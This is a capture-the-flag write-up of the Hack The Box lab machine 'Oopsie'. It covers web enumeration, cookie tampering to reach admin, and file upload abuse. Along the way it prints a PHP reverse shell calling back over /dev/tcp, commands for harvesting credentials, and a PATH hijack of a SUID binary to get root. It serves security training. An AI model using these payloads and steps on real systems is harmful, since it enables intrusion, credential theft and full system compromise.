# HTB Oopsie Writeup

**Focus Areas:** Web Enumeration, Access Control, Privilege Escalation, RCE  
**Category:** Web / Linux – Starting Point  
**Difficulty:** Easy<br>
**Done by:** Razan Salah  

---

## Overview

Oopsie is a web-focused Hack The Box machine that demonstrates how low-severity vulnerabilities such as information disclosure and broken access
control can be chained into full system compromise. The attack path begins with reconnaissance and web enumeration using Nmap, Gobuster, and Burp Suite 
to identify hidden functionality and weak access controls. By abusing insecure session handling and client-side trust, administrative functionality 
is exposed, allowing file upload abuse to achieve remote code execution through a PHP reverse shell. Post-exploitation enumeration reveals credential d
isclosure for lateral movement, followed by privilege escalation through a misconfigured SUID binary, ultimately resulting in root access.

---

# 1. Reconnaissance
This phase focused on identifying exposed services and selecting the most viable initial attack surface.

## 1.1 Port Discovery
An Nmap scan was performed to identify open ports and running services on the target.

**Command:** 
```bash
nmap -sC -sV 10.129.142.60
```
 

The scan revealed two exposed services:
22/tcp (SSH),
80/tcp (HTTP).

SSH was accessible but not immediately useful without credentials, making the web service the primary target for further enumeration.

## 1.2 Initial Web Inspection

Visiting the target in a browser presented a minimal automotive-themed web application.


The links on the homepage do not seem to lead anywhere. However, if we scroll down, we find a hint that the services can be accessed after logging in.

 

According to this information, the website should have a login page. Before proceeding with directory and page enumeration, Burp Suite proxy was used to passively spider the website and map its structure.

# 2. Web Enumeration

This phase focused on identifying hidden routes and understanding how authentication was handled by the application.

## 2.1 Burp Mapping

Burp Suite was used as a passive proxy to map the application during normal browsing. This revealed additional paths not visible from the homepage, including: /cdn-cgi/login



## 2.2 Login Discovery

Browsing to /cdn-cgi/login exposed the application login page.Standard login attempts were unsuccessful, but the application allowed access through a guest login option.

It was possible to spot directories and files that were not visible while browsing. One particularly interesting directory was /cdn-cgi/login, which presented the login page:

 

## 2.3 Guest Access

After logging in as Guest, additional application functionality became visible, including navigation options not exposed to unauthenticated users. This confirmed that more functionality existed behind the login flow.

 

After navigating through the available pages, the only interesting one appeared to be Uploads. However, access was restricted because super admin rights were required.

 

# 3. Access Control Weakness

This phase focused on analyzing how the application handled session data and access control.

## 3.1 Cookie Analysis

Session cookies were reviewed after guest authentication. The application stored role and user identifiers client-side, including values such as:

role=guest,
user=2233

 

## 3.2 User Enumeration

The application exposed user identifiers through the id parameter in the admin panel. Modifying this value allowed enumeration of other users and revealed the administrator account identifier.
http://10.129.143.127/cdn-cgi/login/admin.php?content=accounts&id=1

 

*Note: The IP changed here from 10.129.142.60 to 10.129.143.127 because the machine was turned off and restarted.

## 3.3 Privilege Escalation to Admin

By modifying the session cookies from guest to admin values, administrative functionality became accessible, including the upload panel.



# 4. Foothold (Initial Access)

This phase focused on abusing the administrative upload functionality to gain remote code execution.

## 4.1 File Upload Abuse

Administrative access exposed a file upload feature that accepted user-controlled files. This functionality was used to upload a PHP reverse shell to the target.

Payload Used:
```bash 
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.15.27/4444 0>&1'");
?>  
```

Upload Panel:  

## 4.2 Reverse Shell Delivery

After uploading, the file location was identified under /uploads/ and the payload was triggered through the browser. The upload path was inferred logically and later confirmed through Gobuster enumeration.

Command:
```bash
gobuster dir --url http://{TARGET_IP}/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```
Before triggering the payload, a Netcat listener was started locally to receive the incoming reverse shell connection.

Command:
```bash
nc -lvnp 4444
```
Once the uploaded PHP payload was executed, the target initiated a connection back to the listener and returned an interactive shell as www-data.

 

## 4.3 Initial Shell Access

Triggering the uploaded payload returned command execution on the target as the www-data user, establishing initial access to the system and enabling post-exploitation enumeration.

# 5. Post-Exploitation Enumeration

Post-exploitation focused on stabilizing the shell, enumerating application files, and identifying opportunities for lateral movement.

## 5.1 Shell Stabilization

The initial reverse shell was upgraded to a fully interactive TTY to improve command execution and enable normal shell interaction.

Command:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## 5.2 Credential Discovery

Application files under the web root were reviewed for sensitive information. During enumeration, credentials were identified within application source files, revealing reusable authentication material. However, they did not work.

Command:
```bash
cat * | grep -i passw*
```
Location: /var/www/html/cdn-cgi/login

 

## 5.3 Local User Enumeration

System users were reviewed to identify valid local accounts for lateral movement.

Command:
```bash
cat /etc/passwd
```
## 5.4 Pivot to Robert

Initial credentials were not directly reusable for local access. Further review of db.php revealed valid credentials for lateral movement.

Command:
```bash
cat db.php
```
 

 

# 6. Privilege Escalation

Privilege escalation focused on identifying local misconfigurations that could be abused to obtain root access.

## 6.1 Privilege Context Enumeration

Basic privilege escalation checks were performed:

sudo -l,
id
 

The output of id confirmed that the user robert belonged to the bugtracker group, indicating a potential privilege escalation path through group-owned binaries.

## 6.2 SUID Enumeration

Further enumeration was performed to identify binaries associated with the bugtracker group.

Command:
```bash
find / -group bugtracker 2>/dev/null
```
This revealed a binary located at: /usr/bin/bugtracker

## 6.3 Bugtracker Analysis

The discovered binary was inspected to determine its behavior and execution context. Inspection confirmed that bugtracker was an SUID binary owned by root.

Command:
```bash
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
file /usr/bin/bugtracker
```
 

There is a SUID bit set on that binary, which is a promising exploitation path.

## 6.4 PATH Hijacking

The binary relied on the cat command without using an absolute path, making it vulnerable to PATH hijacking. A malicious cat executable was created in /tmp and used to override the expected system binary.

Commands:
```bash
echo "/bin/sh" > /tmp/cat
chmod +x /tmp/cat
export PATH=/tmp:$PATH
```
## 6.5 Root Access

Executing bugtracker after modifying the PATH variable caused the application to invoke the malicious binary, resulting in a root shell.

Command: 
```bash
bugtracker
```

 

# 7. Flags
*User flag retrieved from /home/robert/user.txt
*Root flag retrieved from /root/root.txt

# 8. Lessons Learned
*Low-severity web flaws can become critical when chained together.
*Client-side trust should never be relied on for authorization.
*Unrestricted file upload can directly lead to remote code execution.
*Application source files often expose credentials useful for post-exploitation.
*SUID binaries should be audited for unsafe execution behavior and PATH abuse.

# Congratulations!

